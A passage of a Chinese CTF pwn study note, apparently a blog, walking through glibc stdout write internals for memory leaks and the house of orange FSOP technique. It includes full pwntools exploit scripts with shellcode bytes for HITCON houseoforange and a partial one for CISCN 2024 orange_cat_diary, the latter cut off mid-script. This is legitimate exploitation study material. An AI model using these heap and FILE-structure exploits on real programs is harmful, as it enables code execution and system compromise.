先让 `p` 向前移动一个字节，然后检查该位置的字符是否为换行符 `\n`。因为它是从后往前扫描，所以如果数据中有多个换行符，这里找到的是**最后一个换行符**。

如果找到了换行符，就执行：

```c
count = p - s + 1;
must_flush = 1;
break;
```

其中：

```c
count = p - s + 1;
```

表示把 `count` 更新为从 `s` 开始到该换行符为止的字节数，**包括这个换行符本身**。这样后续填充缓冲区时，会先把这部分数据写入 FILE 的内部缓冲区。

```c
must_flush = 1;
```

表示本次写入后需要触发刷新。因为当前是行缓冲模式，并且已经遇到了换行符。

```c
break;
```

表示已经找到了需要触发刷新的换行符，不需要继续向前扫描。

因此，这段代码的实际作用是：

如果当前 FILE 是行缓冲，并且当前处于写入状态，
就先计算缓冲区剩余空间。

如果缓冲区足够容纳本次全部数据，
就从待写入数据的末尾向前查找最后一个 '\n'。

如果找到换行符，
就只先处理从数据开头到这个换行符为止的部分，包括换行符，
并标记后续必须 flush。

```c
else if (f->_IO_write_end > f->_IO_write_ptr)
    count = f->_IO_write_end - f->_IO_write_ptr; /* Space available. */
```

检查在当前的缓冲区中，从 _IO_write_ptr 到 _IO_write_end 之间有多少空间是可用的，即还有多少字节可以被写入缓冲区而不需要刷新（即不需要实际写入到文件中）。这个空间量被存储在 count 变量中。

```c
if (count > 0)
    {
      if (count > to_do)
	count = to_do;
      f->_IO_write_ptr = __mempcpy (f->_IO_write_ptr, s, count);
      s += count;
      to_do -= count;
    }
```

首先，通过 if (count > 0) 检查当前缓冲区中是否还有空间可用于写入。如果没有空间（count 不大于 0），则不执行任何操作。

接着，通过 if (count > to_do) 检查缓冲区中剩余的空间量是否大于还需要写入的数据量。如果是，那么实际写入的数据量应该是 to_do，而不是 count，因为没有必要写入比需要更多的数据。因此，将 count 设置为 to_do。

然后，使用 __mempcpy 函数将 s 指向的数据复制到缓冲区的当前写入位置（f->_IO_write_ptr 指向的位置）。__mempcpy 函数类似于 memcpy，但它返回目标缓冲区中最后一个被复制字节之后的位置，这里正是更新 f->_IO_write_ptr 所需要的，以便下一次写入知道从哪里开始。

随后，更新 s 指针，使其指向已经复制到缓冲区中的数据的下一个字节，为下一次可能的写入操作做准备。

最后，更新 to_do 变量，减去已经写入缓冲区的数据量，以反映还需要写入多少数据。

简单来说，就是判断是否能写和写了多少

```c
if (to_do + must_flush > 0)
  {
    size_t block_size, do_write;
    /*
       接下来刷新当前缓冲区。
       这里的 _IO_OVERFLOW(f, EOF) 通常用于把 FILE 写缓冲区中的内容刷到底层 fd。
    */
    if (_IO_OVERFLOW (f, EOF) == EOF)
      /*
         如果没有其他数据要写，不能告诉调用者“全部写完了”。
         to_do == 0 表示只是 flush 失败，返回 EOF；
         否则返回已经成功处理的字节数。
      */
      return to_do == 0 ? EOF : n - to_do;
    /*
       尝试保持对齐：尽量写入整数个 block。
       大块数据会尽量直接写到底层 fd，剩余的小尾巴再走缓冲逻辑。
    */
    block_size = f->_IO_buf_end - f->_IO_buf_base;
    do_write = to_do - (block_size >= 128 ? to_do % block_size : 0);
    if (do_write)
      {
        /*
           直接写出 do_write 字节。
           new_do_write 会把 s 指向的数据写到底层文件描述符。
        */
        count = new_do_write (f, s, do_write);
        to_do -= count;
        /*
           如果实际写入少于预期，说明没有完全写成功，
           返回目前已经成功处理的字节数。
        */
        if (count < do_write)
          return n - to_do;
      }
    /*
       现在处理剩余数据。
       通常这部分可以放回 FILE 缓冲区；
       行缓冲情况较复杂，所以交给 _IO_default_xsputn 处理。
    */
    if (to_do)
      to_do -= _IO_default_xsputn (f, s + do_write, to_do);
  }

/*
   返回实际成功处理的字节数。
   n 是原始写入长度，to_do 是剩余未处理长度。
*/
return n - to_do;
```

这段代码用于处理前面缓冲区填充之后，仍然需要继续处理的情况。

首先：

```c
if (to_do + must_flush > 0)
```

表示如果还有剩余数据没有处理，或者当前是行缓冲并且遇到了换行符，需要进入刷新和后续写入流程。

进入分支后，代码先调用：

```c
_IO_OVERFLOW(f, EOF)
```

刷新当前 FILE 写缓冲区。这里的 `_IO_OVERFLOW` 会通过 vtable 调用对应的 `__overflow` 函数；对普通文件流来说，通常用于把当前缓冲区中的内容写到底层文件描述符。参数 `EOF` 在这里不是写入 EOF 字符，而是表示执行刷新操作。

如果刷新失败并返回 `EOF`，则根据 `to_do` 判断返回值：如果 `to_do == 0`，说明没有额外数据要写，只是刷新失败，因此返回 `EOF`；否则返回 `n - to_do`，表示目前已经成功处理的字节数。

刷新成功后，代码计算缓冲区大小：

```c
block_size = f->_IO_buf_end - f->_IO_buf_base;
```

然后计算：

```c
do_write = to_do - (block_size >= 128 ? to_do % block_size : 0);
```

这一步的作用是尽量让直接写入的数据大小按缓冲区大小对齐。若 `block_size >= 128`，则 `do_write` 会取 `block_size` 的整数倍，剩下不足一个 block 的尾部数据后续再处理；若 `block_size < 128`，则直接尝试处理全部剩余数据。

如果 `do_write` 不为 0，代码调用：

```c
new_do_write(f, s, do_write);
```

把 `s` 指向的这段大块数据直接写到底层文件描述符。随后用实际写入的字节数更新 `to_do`。如果实际写入少于计划写入的 `do_write`，说明底层写入未完全成功，函数立即返回当前已经成功处理的字节数 `n - to_do`。

最后，如果仍然还有剩余数据：

```c
if (to_do)
    to_do -= _IO_default_xsputn(f, s + do_write, to_do);
```

则交给 `_IO_default_xsputn` 处理。通常这部分是小于一个 block 的尾部数据，可能会被放回 FILE 缓冲区，等待后续 `fflush`、`fclose`、缓冲区满、行缓冲换行或程序退出时刷新。对于行缓冲流，处理逻辑更复杂，所以交给默认实现统一处理。

如果中途没有提前返回，函数最后执行：

```c
return n - to_do;
```

返回本次成功处理的字节数。这里 `n` 是原始请求写入的总长度，`to_do` 是最后仍未成功处理的长度，因此 `n - to_do` 就是已经成功处理的字节数。

#### _IO_new_file_overflow --> _IO_do_write

```c
int
_IO_new_file_overflow (FILE *f, int ch)
{
  /* 如果当前流不允许写入，则设置错误并返回 EOF。 */
  if (f->_flags & _IO_NO_WRITES)
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return EOF;
    }

  /*
     如果当前不是写入状态，或者还没有分配写缓冲区，
     则需要初始化/切换到写入状态。
  */
  if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0 || f->_IO_write_base == NULL)
    {
      /* 如果还没有缓冲区，则分配缓冲区。 */
      if (f->_IO_write_base == NULL)
        {
          _IO_doallocbuf (f);

          /*
             初始化读缓冲区指针。
             此时没有可读数据，所以 read_base/read_ptr/read_end 都指向 buf_base。
          */
          _IO_setg (f, f->_IO_buf_base, f->_IO_buf_base, f->_IO_buf_base);
        }

      /*
         否则说明当前可能处于读取状态，需要从读状态切换到写状态。

         如果 _IO_read_ptr 已经到达缓冲区末尾，
         就逻辑上把缓冲区向前滑动一个 block：
         让读相关指针重新指向缓冲区开头，为后续写入腾出空间。

         否则，把读指针设置到 _IO_read_end，
         保持外部文件位置对应关系不被破坏。
      */
      if (__glibc_unlikely (_IO_in_backup (f)))
        {
          size_t nbackup = f->_IO_read_end - f->_IO_read_ptr;

          /* 释放 backup 区域，并恢复读缓冲区状态。 */
          _IO_free_backup_area (f);

          f->_IO_read_base -= MIN (nbackup,
                                   f->_IO_read_base - f->_IO_buf_base);
          f->_IO_read_ptr = f->_IO_read_base;
        }

      /*
         如果读指针已经到达缓冲区末尾，
         说明当前读缓冲区已经消耗完，可以重置到缓冲区开头。
      */
      if (f->_IO_read_ptr == f->_IO_buf_end)
        f->_IO_read_end = f->_IO_read_ptr = f->_IO_buf_base;

      /*
         初始化写缓冲区指针。
         从当前 read_ptr 所在位置开始写。
      */
      f->_IO_write_ptr = f->_IO_read_ptr;
      f->_IO_write_base = f->_IO_write_ptr;
      f->_IO_write_end = f->_IO_buf_end;

      /*
         切换到写状态后，读缓冲区不再保留有效数据。
         先用当前 read_ptr 位置初始化 write_base / write_ptr；
         然后把 read_base / read_ptr 收缩到 read_end，表示不再继续使用当前读区。
         当缓存区未满切换读写状态的时候，read_end指针还有作为外部fd读入数据偏移位置参考的作用
      */
      f->_IO_read_base = f->_IO_read_ptr = f->_IO_read_end;

      /* 标记当前 FILE 正处于写入状态。 */
      f->_flags |= _IO_CURRENTLY_PUTTING;

      /*
         如果是字节流，并且当前流是行缓冲或无缓冲，
         则先让 write_end 等于 write_ptr。
         这样后续写入会更容易触发 overflow/flush。
      */
      if (f->_mode <= 0 && f->_flags & (_IO_LINE_BUF | _IO_UNBUFFERED))
        f->_IO_write_end = f->_IO_write_ptr;
    }

  /*
     如果 ch == EOF，表示这里只是要求刷新缓冲区，
     不是要写入一个实际字符。
  */
  if (ch == EOF)
    return _IO_do_write (f, f->_IO_write_base,
                         f->_IO_write_ptr - f->_IO_write_base);

  /*
     如果写指针已经到达缓冲区末尾，说明缓冲区真的满了，
     需要先 flush。
  */
  if (f->_IO_write_ptr == f->_IO_buf_end)
    if (_IO_do_flush (f) == EOF)
      return EOF;

  /* 将 ch 写入缓冲区，并推进写指针。 */
  *f->_IO_write_ptr++ = ch;

  /*
     如果当前流是无缓冲，
     或者当前流是行缓冲并且写入的字符是换行符，
     则立即把缓冲区内容写到底层 fd。
  */
  if ((f->_flags & _IO_UNBUFFERED)
      || ((f->_flags & _IO_LINE_BUF) && ch == '\n'))
    if (_IO_do_write (f, f->_IO_write_base,
                      f->_IO_write_ptr - f->_IO_write_base) == EOF)
      return EOF;

  /* 成功写入 ch，返回该字符。 */
  return (unsigned char) ch;
}
```

我们希望利用的是 _IO_new_file_overflow 中 ch == EOF 时调用 _IO_do_write 的路径：

```c
if (ch == EOF)
    return _IO_do_write(f, f->_IO_write_base,
                        f->_IO_write_ptr - f->_IO_write_base);
```

这里传入 _IO_do_write 的参数分别是 FILE 结构体指针 f、输出缓冲区起始地址 _IO_write_base，以及要输出的长度 _IO_write_ptr - _IO_write_base。

对 stdout 来说，f->_fileno 通常为 1，因此 _IO_do_write 最终会把这段内存内容写到标准输出。标准输出在本地通常连接终端，在远程 pwn 题中通常连接 socket，因此我们可以在终端或 exploit 脚本中接收到这段输出。

因此，如果我们能够篡改 stdout 的相关字段，使：

stdout->_IO_write_base = 想泄露的内存起始地址
stdout->_IO_write_ptr  = 想泄露的内存结束地址

那么触发 _IO_do_write 后，程序就会执行类似 write(1, _IO_write_base, _IO_write_ptr - _IO_write_base) 的操作，把指定内存区域的原始字节输出出来。如果这段内存中包含 libc 指针，我们就可以根据泄露结果计算 libc 基址。

#### _IO_new_do_write --> _new_do_write

```c
int
_IO_new_do_write (FILE *fp, const char *data, size_t to_do)
{
  /*
     _IO_new_do_write 本身只是一个包装函数。

     如果 to_do == 0，说明没有数据需要写，直接认为成功；
     否则调用 new_do_write 写入数据。
     只有实际写入字节数等于 to_do 时才返回 0，
     否则返回 EOF 表示写入失败或未完全成功。
  */
  return (to_do == 0
          || (size_t) new_do_write (fp, data, to_do) == to_do) ? 0 : EOF;
}
```

_IO_new_do_write 是 _IO_do_write 路径中的一层包装函数。它接收 FILE 指针 fp、待输出数据起始地址 data，以及待输出长度 to_do。函数本身不直接写数据，而是调用 new_do_write(fp, data, to_do)。如果 to_do 为 0，或者 new_do_write 实际写入的字节数等于 to_do，则返回 0 表示成功；否则返回 EOF。

new_do_write 是真正处理底层写入的函数。它首先根据 FILE 的状态修正写入前的文件偏移：如果当前流是追加模式，则把 fp->_offset 标记为无效；如果之前存在读缓冲导致底层 fd 位置和当前逻辑写入位置不一致，则通过 _IO_SYSSEEK 调整 fd 偏移。

#### new_do_write --> _IO_SYSWRITE

```c
static size_t
new_do_write (FILE *fp, const char *data, size_t to_do)
{
  size_t count;

  if (fp->_flags & _IO_IS_APPENDING)
    /*
       如果是追加模式，不需要在这里手动 seek 到文件末尾。

       在 Unix/POSIX 系统中，O_APPEND 会由内核保证写入追加到文件末尾。
       因此这里只把 offset 标记为不可预测/无效。
    */
    fp->_offset = _IO_pos_BAD;

  else if (fp->_IO_read_end != fp->_IO_write_base)
    {
      /*
         如果之前发生过读取，glibc 的用户态缓冲区位置
         可能和底层 fd 的真实文件偏移不一致。

         这里通过 seek 修正底层 fd 的位置，
         使其回到当前逻辑写入位置。
      */
      off64_t new_pos
        = _IO_SYSSEEK (fp, fp->_IO_write_base - fp->_IO_read_end, 1);

      if (new_pos == _IO_pos_BAD)
        return 0;

      fp->_offset = new_pos;
    }

  /*
     真正执行底层写入。

     对普通文件流来说，_IO_SYSWRITE 会通过 FILE 的底层写函数
     把 data 指向的 to_do 字节写到底层 fd。
  */
  count = _IO_SYSWRITE (fp, data, to_do);

  /*
     如果维护了当前输出列号，则根据本次写出的内容更新列号。
  */
  if (fp->_cur_column && count)
    fp->_cur_column = _IO_adjust_column (fp->_cur_column - 1, data, count) + 1;

  /*
     写入完成后，清空读缓冲区状态。
     这里把 read_base/read_ptr/read_end 都设置为 buf_base。
  */
  _IO_setg (fp, fp->_IO_buf_base, fp->_IO_buf_base, fp->_IO_buf_base);

  /*
     重置写缓冲区状态。
     写缓冲区重新从 buf_base 开始。
  */
  fp->_IO_write_base = fp->_IO_write_ptr = fp->_IO_buf_base;

  /*
     设置写缓冲区结束位置。

     如果是字节流，并且当前流是行缓冲或无缓冲，
     write_end 设置为 buf_base，使后续写入更容易触发 overflow/flush。

     否则 write_end 设置为 buf_end，表示可以正常使用整块缓冲区。
  */
  fp->_IO_write_end = (fp->_mode <= 0
                       && (fp->_flags & (_IO_LINE_BUF | _IO_UNBUFFERED))
                       ? fp->_IO_buf_base : fp->_IO_buf_end);

  /*
     返回实际写入到底层 fd 的字节数。
  */
  return count;
}
```

随后，new_do_write 调用 _IO_SYSWRITE(fp, data, to_do) 执行底层写入。对于普通文件流，这一步最终会把 data 指向的 to_do 字节写到底层文件描述符。若 fp 是 stdout，则底层 fd 通常为 1，因此这些字节会输出到标准输出；本地运行时通常显示在终端，远程 pwn 场景中通常会通过 socket 返回给攻击脚本。

写入完成后，new_do_write 会更新当前输出列号，清空读缓冲区状态，并重置写缓冲区指针：_IO_write_base 和 _IO_write_ptr 被重置到 _IO_buf_base。对于行缓冲或无缓冲流，_IO_write_end 会被设置为 _IO_buf_base，使后续写入更容易触发 flush；否则设置为 _IO_buf_end，继续使用正常缓冲区。

因此，在 stdout 泄露场景中，如果能够控制 stdout->_IO_write_base 和 stdout->_IO_write_ptr，并触发 _IO_do_write / _IO_new_do_write 路径，就可能形成类似 write(1, _IO_write_base, _IO_write_ptr - _IO_write_base) 的效果，从而把指定内存区域的原始字节输出出来。

### 绕过检查

我们先来看一下整个函数调用流程：

```text
_IO_puts -->> _IO_new_file_xsputn -->> _IO_OVERFLOW
-->> _IO_do_write(_IO_new_do_write) -->> _new_do_write
-->> _IO_SYSWRITE 
```

那我们从头来看一下需要绕过的检查：

#### _IO_puts --> _IO_new_file_xsputn

```c
 if ((_IO_vtable_offset (stdout) != 0
       || _IO_fwide (stdout, -1) == -1)
      && _IO_sputn (stdout, str, len) == len
      && _IO_putc_unlocked ('\n', stdout) != EOF)
```

第一个(_IO_vtable_offset (stdout) != 0 || _IO_fwide (stdout, -1) == -1) 我们需要他判断为真，但是_IO_vtable_offset (stdout) != 0 没法成立，_IO_vtable_offset这个宏强制将结果赋值成0：



那只能去看_IO_fwide这个宏操作



```c
({ int __result = (-1); 
 if (__result < 0 && ! (0)) 
    { if ((stdout)->_mode == 0) 
        (stdout)->_mode = -1; 
        __result = (stdout)->_mode; 
    } 
else 
    if (__builtin_constant_p (-1) && (-1) == 0) 
        __result = (0) ? -1 : (stdout)->_mode; 
    else 
        __result = _IO_fwide (stdout, __result); __result; 
})

```

这个宏操作其实就是去检查了 (stdout)->_mode == 0 为0就把他赋值成-1，之后result==(stdout)->_mode，也就是说要想result=-1，我们需要将_mode=0或者-1。

#### _IO_new_file_xsputn --> _IO_OVERFLOW

这一步没有什么需要注意的，只需要to_do>0即可

#### _IO_new_file_overflow --> _IO_do_write

这里一共有两个绕过点：

1. f->_flags & _IO_NO_WRITES == 0

```c
if (f->_flags & _IO_NO_WRITES)
  {
    f->_flags |= _IO_ERR_SEEN;
    __set_errno (EBADF);
    return EOF;
  }
```

即

#define _IO_MAGIC 0xFBAD0000
#define _IO_NO_WRITES 8
_flags & _IO_NO_WRITES = 0
_flags = 0xfbad0000

2. f->_flags & _IO_CURRENTLY_PUTTING != 0 && f->_IO_write_base != NULL



让这个条件为假的原因是，如果判断成功，也就是检查输出缓冲区为空，便会进行分配空间，并且会初始化指针。一旦进行初始化操作，那么就会覆盖掉我们事先在stdout的_IO_write_base的数据，导致无法掌控输出内容。

至于后半部分f->_IO_write_base == NULL的判断，由于我们会在_IO_write_base中部署数据，所以后半部分的条件判断一定为假。那么这样一来我们将前半部分也为假，即f->_flags & _IO_CURRENTLY_PUTTING = 1，则整个判断就为假：

即

```
#define _IO_MAGIC 0xFBAD0000
#define _IO_CURRENTLY_PUTTING 0x800
f->_flags & _IO_CURRENTLY_PUTTING = 1
_flags = 0xfbad0800
```

#### _IO_new_do_write --> new_do_write

因为to_do是我们要输出的内容的长度，所以一定不为0，也就是会正常走到new_do_write函数。

#### new_do_write --> _IO_SYSWRITE

这里面一共有两个判断：


else这条分支我们尽可能的不碰，原因是因为

一般在做这种题的时候都会伴随着随机化保护的开启，进行攻击的时候，我们一般采用的都是覆盖末位字节的方式造成偏移，因为即使随机化偏移也会存在0x1000对齐。但是这时候就会遇到一个很尴尬的情况，_IO_read_end和_IO_write_base存放的地址是由末位字节和其他高字节共同组成的，其他高字节由于随机化的缘故无法确定，基本上这个地方很难绕过。而一旦进行到else if 内那随后执行的_IO_SYSSEEK函数会因为fp->_IO_write_base - fp->_IO_read_end难以控制导致执行失败。

而if分支相对来说造成的影响就比较小了，内部仅仅将偏移设置为标准值，不会影响后续的输出流程。并且if判断的条件也很容易满足，我们只需要将fp->_flags & _IO_IS_APPENDING != 0即可:

所以为了走到下面的SYS_WRITE，最好是直接执行if，而不是执行else if 或者两个都不执行，执行if相对好满足

```
#define _IO_MAGIC 0xFBAD0000
#define _IO_IS_APPENDING 0x1000
fp->_flags & _IO_IS_APPENDING = 1
_flags = 0xfbad1000

```

### 总结

综上所述，我们需要绕过的点有：

```
设置_flags & _IO_NO_WRITES = 0
设置_flags & _IO_CURRENTLY_PUTTING = 1
设置_flags & _IO_IS_APPENDING = 1
设置_flags = 0xFBAD1800
设置_IO_write_base指向想要泄露的位置，_IO_write_ptr指向泄露结束的地址(不需要一定设置指向结尾，stdout结构中自带地址也足够泄露libc)
_mode=0或者-1
_fileno为1（因为最后要输出内容到屏幕，所以文件描述符应该为1） 
```


## house of orange

适用范围 libc 2.23-2.26

house of orange整体上可以概括为：强行释放top chunk产生bin + unsortedbin attack篡改IO + FSOP

核心点个人认为其实应该是篡改top chunk的size使其进入unsortedbin这点(虽然高版本以及现在的pwn题用的不是很多就是了)，但是因为这个手法大概率是很多萌新学习的第一个涉及IO的手法，所以IO部分的利用其实也蛮重要

以hitcon的house of orange为例

### 例题 houseoforange

无沙箱，无free
add：最多能申请四次，每次流程如下
先申请有个大小为0x20的chunk，chunk的可写区中，前半部分chunk存的是储存名字的chunk地址，后半部分chunk存的是储存颜色和价格chunk的地址，价格和颜色的chunk块大小也为0x20
也就是说，一次add会申请三个chunk，0x20，用户自选，0x20

增和改都有一个次数限制，以及改和查都只能操作最后一个申请的chunk

#### topchunk 利用部分

因为house of orange主要面对的是“没有free”的情况，所以第一步自然是寻找能够产生free chunk的手段

这个手段就是释放top chunk

一个正常大小的top chunk大小大概会在0x20000以上，直接释放的话肯定是不行的，因为会被判断为大内存块特殊处理，而不是交由ptmalloc管理。所以就要先设法削减top chunk的size，一般来说至少需要抹到只剩3位，虽然理论上讲通过申请chunk来削减不是不可能，但是更推荐的方法还是想办法去篡改

一般篡改的方法就是 相邻chunk溢出修改，或者题目给出了任意地址写某些数字的机会，以溢出修改为例

```bash
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x555555604000
Size: 0x300 (with flag bits: 0x301)

Allocated chunk | PREV_INUSE
Addr: 0x555555604300
Size: 0x20 (with flag bits: 0x21)

Allocated chunk | PREV_INUSE
Addr: 0x555555604320
Size: 0x50 (with flag bits: 0x51)

Allocated chunk | PREV_INUSE
Addr: 0x555555604370
Size: 0x20 (with flag bits: 0x21)

Top chunk | PREV_INUSE
Addr: 0x555555604390
Size: 0x20c70 (with flag bits: 0x20c71)

pwndbg> x/16gx  0x555555604320
0x555555604320: 0x0000000000000000      0x0000000000000051
0x555555604330: 0x00000a6161616161      0x0000000000000000
0x555555604340: 0x0000000000000000      0x0000000000000000
0x555555604350: 0x0000000000000000      0x0000000000000000
0x555555604360: 0x0000000000000000      0x0000000000000000
0x555555604370: 0x0000000000000000      0x0000000000000021
0x555555604380: 0x0000001f00000036      0x0000000000000000
0x555555604390: 0x0000000000000000      0x0000000000020c71
```

中间的堆块是我们可用控制的，所以算出偏移，就可用覆盖后面的内容来修改top chunk的size

```python
add(0x10, 'ink');
edit(0x40, padding(0x18) + p64(0x21) +p64(0x0000002000000001)+p64(0)*2+p64(0xfa1))
```

改完以后如下


然后就是真正的关键点——伪造size的大小

因为我们的目的是将topchunk置入unsortedbin，所以size的大小就需要在0x90~0x1000(有tcache则还需要大于0x400)范围内
 
但同时还要满足另一个要求——满足topchunk size的页对齐
 
这点简单理解的话就记住修改规律就可以了：如上图中top chunk修改前是0x20d51，那么修改后的size就需要保留后三位0xd51(其实无论多大都是保留后三位)，也就是说size的变化只能以0x1000为倍数变化，比如再变成0x1d51、0x2d51、0x10d51 (对于防止因topchunk崩溃) 都是没问题的。当然结合需要让size遭篡改后的topchunk进入unsortedbin这点，那么更好的方法是单纯保留后三位就是了。

将chunk大小修改后，下一步申请一个比topchunk大小更大的chunk，此时glibc会因为top chunk大小不够而进行扩堆，top chunk就会被当作普通的free chunk放入unosrtedbin中，之后再次申请比top chunk 小的堆块，top chunk 会在largebin中被切分为两块，前面一块返回给我们用作我们申请的chunk，后半块此时就存在一些刚刚在几个bin中跳来跳去的指针（这里得去动调查看哪里有），利用printf将指针泄漏出来，之后就能得到libc基址

再往后就是house of orange的精髓部分了，前面的笔记中有写过，unsortedbin attack可以做到将任意的值改成unsortebin头节点在main_arena的值，这里将_IO_list_all的值改成main_arena的值，此时_IO_list_all这个头节点中的chain对应的位置就是存放0x60大小的smallbin的链表的位置。

所以当我们覆盖了IO_list_all后，再构造一个0x60大小的堆放入unsortedbin中，再申请一个不是0x60大小的堆块，这时候这个堆块就会被放入smallbin中，IO_list_all这个头节点的chain也就会指向我们构造的那个堆中

0x60的chunk中就是我们伪造的IO_FILE，IO_FILE的检查规则总结如下

- **假设伪造的 IO_FILE 结构体为堆地址 B**（也就是跟随 arena 被放到 chain 位置的那个 chunk）
- **作为伪造 vtable 的堆地址 C**（其实可以直接使用堆 B 内部的位置，也就是 B±N）
- **fp->mode(B+0xc0) <= 0**
- **fp->_IO_write_ptr(B+0x28) > fp->_IO_write_base(B+0x20)**
- **vtable(B+0xd8)** 设置为我们能控制内存块的地址（堆地址）
- **vtable->IO_OVERFLOW(C+0x18)** 设置为 system 地址
- **fp->flags(B+0x0)** 设置为 binsh 地址

```
offset   字段
0x00     _flags
0x08     _IO_read_ptr
0x10     _IO_read_end
0x18     _IO_read_base
0x20     _IO_write_base
0x28     _IO_write_ptr
0x30     _IO_write_end
0x38     _IO_buf_base
0x40     _IO_buf_end
0x48     _IO_save_base
0x50     _IO_backup_base
0x58     _IO_save_end
0x60     _markers
0x68     _chain
0x70     _fileno
0x74     _flags2
0x78     _old_offset
0x80     _cur_column / _vtable_offset / _shortbuf
0x88     _lock
0x90     _offset
0x98     _codecvt
0xa0     _wide_data
0xa8     _freeres_list
0xb0     _freeres_buf
0xb8     __pad5
0xc0     _mode
0xd8     vtable
```

所以我们可以得到里面要如何构造

```python
fake_IO_addr = leak_heap + 0x430 
vtable_addr  = fake_IO_addr + 0x60

fake_IO_file = flat({
    0x00: b'/bin/sh\x00',
    0x08: p64(0x61),
    0x10: p64(libc_base + 0x3c4b78),
    0x18: p64(io_list_all - 0x10), # 前面的是unsrotedbin的头地址，后面的是修改的地方
    0x20: p64(2),
    0x28: p64(3),
    0xc0: p64(0),
    0xd8: p64(vtable_addr),
    0x60 + 0x18: p64(sys_addr),
}, filler=b'\x00')
payload = b'f'*0x400 + p64(0) + p64(0x21) + padding(0x10) + fake_IO_file
```

```bash
Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x55557f4834f0
Size: 0xaf0 (with flag bits: 0xaf1)
fd: 0x7f6bfbfc3b78
bk: 0x7f6bfbfc3b78
```

这里通过触发malloc的报错，产生这样的调用链：
malloc(10) -> libc_messege -> abort -> _IO_flush_all_lockp -> IO_OVERFLOW

所有最后用malloc来触发shell

```python
import os
from pwn import *

context(arch='amd64', os='linux', log_level='debug')

binary = './houseoforange_hitcon_2016'
libc_path = os.path.abspath('./libc-2.23.so')

elf = ELF(binary)
libc = ELF(libc_path)
ld = ELF('./ld-2.23.so')

r = process([ld.path, elf.path], env={"LD_PRELOAD": libc.path})
#r = remote("node5.buuoj.cn",26652)


default = 9999
sd      = lambda data                     : r.send(data)
sa      = lambda delim, data              : r.sendafter(delim, data)
sl      = lambda data                     : r.sendline(data)
sla     = lambda delim, data              : r.sendlineafter(delim, data)
rv      = lambda numb=4096                : r.recv(numb)
rl      = lambda time=default             : r.recvline(timeout=time)
ru      = lambda delims, time=default     : r.recvuntil(delims,timeout=time)
rpu     = lambda delims, time=default     : r.recvuntil(delims,timeout=time,drop=True)
uu32    = lambda data                     : u32(data.ljust(4, b'\x00'))
uu64    = lambda data                     : u64(data.ljust(8, b'\x00'))
uuntil  = lambda data, count=-6           : uu64(ru(data)[count:])
# padding = lambda length                   : b'ink' * (length // 3) + b'I' * (length % 3)
padding = lambda length, filler=0         : b'ink' * (length // 3) + b'I' * (length % 3) if filler == 0 else filler * length
lg      = lambda var_name                 : log.success(f"{var_name} ：0x{globals()[var_name]:x}")
prl     = lambda var_name                 : print(len(var_name))
debug   = lambda command=''               : gdb.attach(r,command)
it      = lambda                          : r.interactive()
short_sc= lambda bits=64                  : b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05' if bits==64 else b'\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'

def add(size,content):
    sla('Your choice : ',str(1))
    sla('Length of name :',str(size))
    sa('Name :',content)
    sla('Price of Orange:',str(1))
    sla('Color of Orange:',str(2))
def edit(size,content):
    sla('Your choice : ',str(3))
    sla('Length of name :',str(size))
    sa('Name:',content)
    sla('Price of Orange:',str(1))
    sla('Color of Orange:',str(2))
def show():
    sla('Your choice : ',str(2))

add(0x10, 'ink');
edit(0x40, padding(0x18) + p64(0x21) +p64(0x0000002000000001)+p64(0)*2+p64(0xfa1))
add(0x1000, padding(8))

add(0x400, 'i'*8)
show()

ru('i'*8)
libc_base = uu64(rv(6)) - 0x3c5188
lg("libc_base")

io_list_all=libc_base+libc.symbols['_IO_list_all']
sys_addr=libc_base+libc.symbols['system']

edit(0x20,'e'*0x10)

show()
ru('e'*0x10)
leak_heap=u64(rv(6).ljust(8,b'\x00'))

lg("leak_heap")
lg("libc_base")


fake_IO_addr = leak_heap + 0x430
vtable_addr  = fake_IO_addr + 0x60

fake_IO_file = flat({
    0x00: b'/bin/sh\x00',
    0x08: p64(0x61),
    0x10: p64(libc_base + 0x3c4b78),
    0x18: p64(io_list_all - 0x10), # 前面的是unsrotedbin的头地址，后面的是修改的地方
    0x20: p64(2),
    0x28: p64(3),
    0xc0: p64(0),
    0xd8: p64(vtable_addr),
    0x60 + 0x18: p64(sys_addr),
}, filler=b'\x00')
payload = b'f'*0x400 + p64(0) + p64(0x21) + padding(0x10) + fake_IO_file


edit(0x1000, payload)

sla('Your choice : ',str(1))

it()
```

### 例题2 CISCN_2024_orange_cat_diary

还是先查看保护

libc版本2.23
没有沙箱
add ：最大为0x1000
free：没有制空指针，但是只能删一次
show：只能show一次
edit:只能对最后一个申请出来的chunk操作，最多溢出8字节的数据

这里free只能删一次，所以我们如果要一次性泄露两个地址还是得用orange的方法

申请一个0x28的chunk，就能得到一个0x30的chunk，然后edit能多谢8位，就能覆盖top_chunk的size，这时候动调查看泄露出的地址和libc还有heap的差值就能得到基址

后面不能按照原来的orange方法打，因为edit溢出不够，但是这里可以直接走malloc_hook

在glibc 2.23～2.26：最常见的就是 __malloc_hook - 0x23，这里可以伪装是0x70大小的chunk，所以申请0x60大小的chunk，用one_gadget找到可用的代码，然后直接写入__malloc_hook就行

```python
from pwn import *
import os

context(arch='amd64', os='linux', log_level='debug')

binary = './orange_cat_diary'
libc_path = os.path.abspath('./libc-2.23.so')

elf = ELF(binary)
libc = ELF(libc_path)
ld = ELF('./ld-2.23.so')

#p = process([ld.path, elf.path], env={"LD_PRELOAD": libc.path})
p = remote("pwn.challenge.ctf.show",28165)

def add(size, content):
    p.sendlineafter(b"input your choice:", b"1")
    p.sendlineafter(b"diary content:", str(size).encode())
    p.sendafter(b"diary content:\n", content)

def show():
    p.sendlineafter(b"input your choice:", b"2")

def delete():
    p.sendlineafter(b"input your choice:", b"3")

def edit(size, content):
    p.sendlineafter(b"input your choice:", b"4")
    p.sendlineafter(b"diary content:", str(size).encode())
    p.sendafter(b"diary content:\n", content)

p.sendlineafter(b"me your name.\n", b"ptilopsis")

add(0x28, b"aaaa")
edit(0x30, b"a" * 0x28 + p64(0xfd1))

add(0x1000, b"aaaa")
add(0x3f8, b"i" * 8)


show()

p.recvuntil(b"i" * 8)

libc_leak = u64(p.recvn(8))
heap_leak1 = u64(p.recvn(8))
